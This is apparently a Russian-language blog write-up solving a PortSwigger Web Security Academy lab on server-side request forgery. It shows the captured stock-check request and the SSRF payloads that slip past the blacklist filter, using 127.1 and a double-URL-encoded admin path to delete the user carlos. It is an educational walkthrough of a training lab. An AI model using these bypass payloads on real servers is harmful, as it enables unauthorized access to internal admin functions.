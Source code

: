 ```yaml
---
title: "SSRF with blacklist-based input filter"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-with-blacklist-filter#"
classes: wide
---
```


Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Для ее решения нужно получить доступ к интерфейсу админа `http://localhost/admin` и удалить пользователя `carlos`.

```
https://0a71006d04dde7948159e33700d200f4.web-security-academy.net/
```

## Solution

Немного посмотрю, как работает сайт, и заодно соберу `HTTP`-запросы через `Burp Proxy`. Кред для входа нам не дали(

Нашел запрос на проверку наличия товара:

```http
POST /product/stock HTTP/2
Host: 0a71006d04dde7948159e33700d200f4.web-security-academy.net
Cookie: session=dYYyqMOn0ccjpc3CG25VsB42YI4ApEIj
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a71006d04dde7948159e33700d200f4.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a71006d04dde7948159e33700d200f4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

В параметре `stockApi` передается адрес для запроса `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1`.

Попробую передать нужный `http://localhost/admin`.

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

Попробую закодировать запрос в `URL`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

Далее буду пробовать разные варианты запроса:

```
http://127.0.0.1/admin - err
http://127.0.0.1/%61%64%6d%69%6e - err
http://127.1/%61%64%6d%69%6e - err
```

Попробую разделить запроса на 2 предполагаемых фильруемых значения `localhost` и `/admin`. Начну с `localhost`:

```
http://127.0.0.1 - err
http://127.1 - OK
```

Сайт распарсил сокращенный вариант адреса. Супер, теперь попробую добавить `/admin`:

```
http://127.1/admin - err
http://127.1/%25%36%31%64%6d%69%6e - OK
```

Из оригинального запроса было видно, что можно применить `URL`-кодирование. Я закодировал `а` в `URL` и получил `%61dmin`, а затем закодировал все это еще раз.

На полученной странице видно следующее:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_blacklist-based_input_filter/1.png){: height="200" .align-center}

Для удаления пользователя нужно использовать ручку `/admin/delete?username=carlos`. Попробую использовать это, закодировав путь дважды:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%64%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33
```

Ответ:

```http
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=i0GScmiflIc0foM1PmWdwDsY2xKSF4gm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Пользователь успешно удален:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_blacklist-based_input_filter/2.png){: height="200" .align-center}
